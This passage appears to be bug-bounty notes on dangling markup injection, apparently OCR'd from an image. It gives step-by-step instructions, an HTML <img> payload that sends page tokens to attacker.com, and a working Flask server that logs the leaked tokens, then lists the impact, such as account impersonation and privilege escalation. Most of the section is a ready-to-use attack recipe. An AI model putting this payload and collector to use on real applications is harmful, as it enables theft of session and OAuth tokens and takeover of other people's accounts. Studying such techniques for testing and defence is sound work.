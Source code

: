 **Why This Works**:

- Rate limits often allow 1 attempt every 2 seconds.

# 4. Dangling Markup Injection

**Step-by-Step**:

1. Inject a partial HTML tag to leak tokens from error pages.
2. Capture tokens via an attacker-controlled server.

**Injection Payload**:

```html
<img src='//attacker.com?token=  
```

**Python Server to Log Leaked Tokens**:

```python
from flask import Flask, request    
app = Flask(__name__)    
  
@app.route('/')    
def log_token():    
    token = request.args.get('token')    
    if token:    
        print(f"[+] Token Leaked: {token}")    
    return "404 Not Found", 404    
  
app.run(port=80)
```

**Why This Works**:

- Browsers resolve incomplete tags, sending partial tokens to your server


- **Error Pages or Responses Leak Tokens**: If the application mishandles this incomplete markup, sensitive data such as tokens might be added to the generated page (e.g., an error response).
    
- **Token Capture on Attacker's Server**: The injected `<img>` tag includes a URL to an attacker-controlled server. When the browser resolves the dangling markup, it attempts to send a request to this URL, **including the sensitive token as part of the request parameters.**

-- ~={yellow}See hacker1 reports about=~ **Dangling Markup Injection**


### Consequences of Leaking a Token  (Impact):

If a token is leaked:

- **Unauthorized Access**: The attacker can use the token to impersonate the victim, gain access to their accounts, or interact with APIs as if they were authenticated users.
    
- **Privilege Escalation**: Depending on the type of token (e.g., OAuth tokens, session cookies), the attacker may gain elevated privileges within the target application.
    
- **Further Exploits**: The attacker might chain this vulnerability with other attacks to compromise systems or exfiltrate more sensitive data.

